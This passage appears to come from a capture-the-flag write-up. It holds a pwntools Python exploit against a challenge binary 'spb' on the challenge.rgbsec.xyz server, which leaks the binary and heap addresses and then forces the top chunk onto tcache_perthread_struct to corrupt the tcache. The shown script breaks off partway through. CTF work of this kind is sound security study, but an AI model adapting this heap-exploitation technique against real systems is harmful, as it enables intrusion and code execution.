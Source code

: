 We can cat `/pwn/flag.txt` to get the flag.

Script:

```python
#!/usr/bin/env python3

from pwn import *
PARTYSIZE = 0
e = ELF("spb")
libc = ELF("libc-2.27.so")
context.binary = e
def chooseSong(length, title=b'',dodata=True):
    p.sendlineafter('> ', str(1))
    p.sendlineafter('> ', str(length))
    if dodata:
        p.sendlineafter('> ', title)
def getDrink(member, drink):
    p.sendlineafter('> ', str(2))
    p.sendlineafter('> ', str(member))
    p.sendlineafter('> ', str(drink))

def singSong():
    p.sendlineafter('> ', str(3))
    p.recvuntil('0x')
    ptr = int(p.recvuntil(' '), 16)
    return ptr
def twoscomplement(num):
  if num >= 0:
    return num
  return (0xffffffffffffffff ^ abs(num)) + 1
def conn():
    if args.LOCAL:
        return process(["./ld-2.27.so",e.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("challenge.rgbsec.xyz",6969)
p = conn()
rickroll = 0xf08
heapoffset = 0x280
topchunk = 0x298
newsize = 0xffffffffffffffd9
p.sendlineafter('> ', str(PARTYSIZE))
p.recvuntil("> ")
p.sendline(str(PARTYSIZE))
p.recvuntil("> ")
p.sendline(b"t")
leak = singSong()
e.address = leak - rickroll
log.info(f"Binary base: {hex(e.address)}")
chooseSong(0x10,b'2nd')
heapleak = singSong()
log.info(f"Heap leak: {hex(heapleak)}")
heapbase = heapleak - heapoffset
log.info(f"Heap base: {hex(heapbase)}")
topchunk += heapbase
perthread = heapbase + 0x10
log.info(f"tcache_perthread_struct: {hex(perthread)}")
reqsize = perthread - topchunk - 16 - 8
reqsize = twoscomplement(reqsize)
log.info(f"Size to request: {hex(reqsize)}")
log.info(f"Size as decimal: {reqsize}")
chooseSong(reqsize,dodata=False)
# Top chunk at tcache_perthread_struct
# Ask for 0x230 size chunk, we get to mess up the tcache
fakestruct = b'\x02\x01\x02'.ljust(64,b'\x00')
```